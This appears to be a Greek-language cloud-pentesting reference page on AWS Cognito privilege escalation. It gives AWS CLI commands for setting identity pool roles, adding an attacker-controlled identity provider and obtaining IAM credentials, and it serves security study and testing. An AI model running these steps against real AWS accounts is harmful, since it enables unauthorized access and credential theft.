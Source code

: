 ## Cognito

Για περισσότερες πληροφορίες σχετικά με το Cognito, ελέγξτε:

{% content-ref url="../aws-services/aws-cognito-enum/" %}
[aws-cognito-enum](../aws-services/aws-cognito-enum/)
{% endcontent-ref %}

### Gathering credentials from Identity Pool

Καθώς το Cognito μπορεί να χορηγήσει **IAM role credentials** σε **authenticated** και **unauthenticated** **users**, αν εντοπίσετε το **Identity Pool ID** μιας εφαρμογής (θα πρέπει να είναι σκληρά κωδικοποιημένο σε αυτήν), μπορείτε να αποκτήσετε νέες πιστοποιήσεις και επομένως privesc (μέσα σε έναν λογαριασμό AWS όπου πιθανώς δεν είχατε καν καμία πιστοποίηση προηγουμένως).

Για περισσότερες πληροφορίες [**ελέγξτε αυτή τη σελίδα**](../aws-unauthenticated-enum-access/#cognito).

**Potential Impact:** Άμεσο privesc στους ρόλους υπηρεσιών που συνδέονται με τους ανώνυμους χρήστες (και πιθανώς και με αυτούς που συνδέονται με τους αυθεντικοποιημένους χρήστες).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

Με αυτήν την άδεια μπορείτε να **χορηγήσετε οποιονδήποτε ρόλο cognito** στους αυθεντικοποιημένους/ανώνυμους χρήστες της εφαρμογής cognito.
```bash
aws cognito-identity set-identity-pool-roles \
--identity-pool-id <identity_pool_id> \
--roles unauthenticated=<role ARN>

# Get credentials
## Get one ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Get creds for that id
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374"
```
Αν η εφαρμογή cognito **δεν έχει ενεργοποιημένους τους μη αυθεντικοποιημένους χρήστες**, μπορεί να χρειαστείτε επίσης την άδεια `cognito-identity:UpdateIdentityPool` για να την ενεργοποιήσετε.

**Πιθανές Επιπτώσεις:** Άμεση privesc σε οποιονδήποτε ρόλο cognito.

### `cognito-identity:update-identity-pool`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να ρυθμίσει για παράδειγμα μια Cognito User Pool υπό τον έλεγχό του ή οποιονδήποτε άλλο πάροχο ταυτότητας όπου μπορεί να συνδεθεί ως **τρόπος πρόσβασης σε αυτή την Cognito Identity Pool**. Στη συνέχεια, απλά **συνδεόμενος** σε αυτόν τον πάροχο χρήστη θα **του επιτρέψει να έχει πρόσβαση στον ρυθμισμένο αυθεντικοποιημένο ρόλο στην Identity Pool**.
```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
[--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
--cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

# In this step you should have already an ID Token
aws cognito-identity get-id \
--identity-pool-id <id_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

```